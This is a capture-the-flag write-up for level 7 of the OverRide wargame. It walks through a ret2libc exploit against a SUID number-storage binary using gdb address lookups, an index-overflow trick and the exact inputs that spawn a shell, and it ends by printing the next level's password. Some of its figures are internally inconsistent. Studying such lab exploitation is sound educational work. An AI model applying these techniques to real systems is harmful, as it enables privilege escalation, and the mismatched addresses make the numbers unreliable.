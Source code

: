 # Level 7

## Vulnerability

Ret2Libc attack on unprotected data table

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### Overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

We can see the program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

We also know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

Vulnerability: no check is performed on indexes and an unsigned int table is stored on the stack. This means we can read and store in stack memory. 


Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) calculate the 'index' of EIP
3) use maxint overflow to access protected indexes
4) run exploit by inputting malicious number + index to running program
<br />

### Find the address of system, exit, bin/sh
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at ```0xf7e6aed0```
- ```exit()``` is at ```0xf7e5eb70```
- ```"/bin/sh"``` is at ```0xf7f897ec```
<br />

### Calculate the 'index' of EIP

Once we find the index in the table where we reach EIP, we can then store our payload there using ```store_number()```. 

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```
The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```
Next, we need to calculate the 'index' of our EIP address. 
```
  0xffffd63c   -    0xffffd474    =    int(0x1c8)  =   456
[eip_address]     [table_address]                    [bytes]

456 / 4   =   114
          [index in table]

114 % 3 = 0
```
Ah... index 114 is protected: ```114 % 3 = 0```. We can't store a number at this index. <br /><br />


### Use maxint overflow to access protected indexes

On lines 152-158 of the disassembled binary, we see that the table is accessed as ```data[index * 4]```. 
Since the index is an unsigned int and multiplied by 4, we can overflow uintmax to give the index where we want to go. 
```
0x100000000 = 2^32
[size of uintmax]

(2^32 / 4) + 114 = 1073741938
                  [index 114, after overflow]

1073741938 % 3 = 1
```
Index ```1073741938``` is unprotected! 

Let's test it out by causing the program to segfault. 
```
(gdb) run

Input command: store
 Number: 1094795585   # decimal for 0x41414141 or 'AAAA'
 Index: 1073741938    # index 114
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
<br /> 

### Build exploit

Let's structure our exploit:
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # address
                        4159090384           4159040368             4160264172          # in decimal, to be number input
                            |                     |                     |
                        1073741938           115                    115                 # index to use
                        data[114]            data[115]              data[116]   
```
Let's give it a go!
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
